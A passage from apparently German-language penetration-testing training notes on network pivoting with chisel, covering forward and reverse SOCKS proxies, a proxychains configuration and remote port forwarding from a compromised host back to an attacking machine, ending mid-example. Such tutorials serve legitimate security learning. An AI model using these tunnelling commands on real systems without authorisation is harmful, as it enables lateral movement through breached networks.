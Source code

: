 Die Syntax sieht folgendermaßen aus:

Für den Zielhost
>./chisel server -p LISTEN_PORT --socks5

und für unsere Angreifer Maschine:

>./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

Bei diesem Befehl gibt PROXY_PORT den Port an, der für den Proxy geöffnet werden soll.

Beispielsweise würde 
>./chisel client 172.16.0.10:8080 1337:socks 

eine Verbindung zu einem Chisel-Server herstellen, der auf Port 8080 von 172.16.0.10 ausgeführt wird. Ein SOCKS-Proxy würde auf Port 1337 unseres angreifenden Rechners geöffnet.

**Proxychains Erinnerung**

Wenn wir Daten über einen dieser Proxys senden, müssen wir den Port in unserer Proxychains-Konfiguration festlegen. Da Chisel einen SOCKS5-Proxy verwendet, müssen wir auch den Zeilenanfang von SOCKS4 in SOCKS5 ändern:

```cmd
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```
Hinweis: Die obige Konfiguration gilt für einen Reverse-SOCKS-Proxy – wie bereits erwähnt, öffnet sich der Proxy auf Port 1080 und nicht auf dem angegebenen Überwachungsport (1337). Wenn du Proxychains mit einem Forward-Proxy verwendest, sollte der Port auf den von dir geöffneten Port eingestellt werden (1337 im obigen Beispiel).

### Remote Port Forwarding

Eine Remote Port Weiterleitung liegt vor, wenn wir von einem gehackten System eine Verbindung zurück für die Weiterleitung herstellen.

Dafür führen wir auf unserem System im Prinzip den gleichen Befehl wie beim Reverse Proxy aus:

>./chisel server -p LISTEN_PORT --reverse &

Um den Zielhost jetzt zu unserem Listener zu verbinden, führen wir folgendes aus:

>./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

Vielleicht fällt auf, dass sich dieser Befehl sehr stark dem SSH Reverse Port Forwarding ähnelt, wo wir den zu öffnenden Port, die Ziel IP Adresse und den Zielport durch Doppelpunkte getrennt angeben. Beachte, dass wir mit Listener Port den Port angeben, an dem unser Server auf Verbindungen wartet. Local Port gibt den Port an den wir gerne auf unserer Maschine öffnen möchten und mit dem Ziel Port verbinden möchten.

Um ein altes Beispiel zu verwenden: Nehmen wir an, dass unsere eigene IP 172.16.0.20 ist, die IP des kompromittierten Servers 172.16.0.5 ist und unser Ziel Port 22 auf 172.16.0.10 ist. Die Syntax für die Weiterleitung von 172.16.0.10:22 zurück an Port 2222 auf unserem angreifenden Computer wäre wie folgt:
